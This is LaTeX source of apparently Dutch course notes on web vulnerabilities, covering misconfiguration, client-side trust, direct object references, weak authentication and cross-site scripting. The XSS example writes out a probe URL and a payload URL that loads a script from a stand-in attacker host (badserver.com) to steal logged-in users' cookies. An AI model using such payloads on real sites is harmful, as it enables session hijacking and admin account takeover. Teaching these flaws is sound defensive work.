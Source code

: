 \documentclass{report}
\begin{document}
	\subsubsection{Kwetsbaarheden}
	\begin{itemize}
		\item[\info] \textbf{Slechte configuratie}: Gebruik maken van oude software, paswoorden die makkelijk te raden zijn, source code die gedownload kan worden.
		\item[\info] \textbf{Client-side}: De client-side vertrouwen is een slechte zaak. Het is eenvoudig om met javascript manipulaties uit te voeren. Controleer elke actie op de server-side.
		\item[\info] \textbf{Direct object reference}: De applicatie bevat resources die enkel mogen gezien worden voor een geautoriseerde gebruiker, maar iedereen kan eigenlijk gewoon de URL intypen.
		\item[\info] \textbf{Authenticatiefouten}: Het gebruik van zwakke paswoorden, die gekraakt kunnen worden met een brute-force methode. Ook als een gebruiker een fout paswoord, maar wel een juist username intypt, moet de applicatie toch tonen dat het ofwel een fout paswoord of fout usernaam is.
		\item[\info] \textbf{Cross-site scripting (XSS)}: XSS werkt goed bij zwakke webservers. Een aanvaller kan code injecteren, zodat normale gebruikers die code zullen uitvoeren wanneer ze de zwakke webserver bezoeken. \underline{X voorbeelden:}
		\begin{enumerate}
			\item Een webserver laat toe om queries in te geven. Gebruikers kunnen inloggen met hun username en paswoord. Er wordt een cookie bijgehouden die de sessie bijhoudt. Bij een foute query, zoals 
			$$\texttt{http://web.org?q=puppies}$$ zal de webserver een foutmelding geven:
			$$\texttt{Error - puppies not found}$$
			Een aanvaller probeert nu na te gaan of deze webserver gevoelig is aan XSS aanvallen. Hij verandert de query:
			$$\texttt{http://web.org?q=<script type='text/javascript'>alert('xss');</script>}$$
			Na uitvoering van deze query, verschijnt er een popup op het venster met 'xss', alsook een melding:
			$$\texttt{Error - <script type='text/javascript'>alert('xss');</script> not found}$$
			De aanvaller weet nu dat hij een XSS aanval kan uitvoeren. De query valideert de input namelijk niet, zodat er eender wat kan staan. De aanvaller construeert een URL, waarbij de query een script is dat de cookies van de ingelogde gebruiker ophaalt en doorstuurt naar de aanvaller zijn server, zoals:
			$$\texttt{http://web.org?q=<script src="http://badserver.com/script.js"></script>}$$
			De aanvaller verstuurt deze (gemaskeerde) URL naar gebruikers. Elke gebruiker die daar nu op klikt, zal dat script uitvoeren op zijn browser. Als de administrator van de webserver op deze link klikt, krijgt de aanvaller toegang tot dit adminaccount.


\end{enumerate}
\end{itemize}
\end{document}

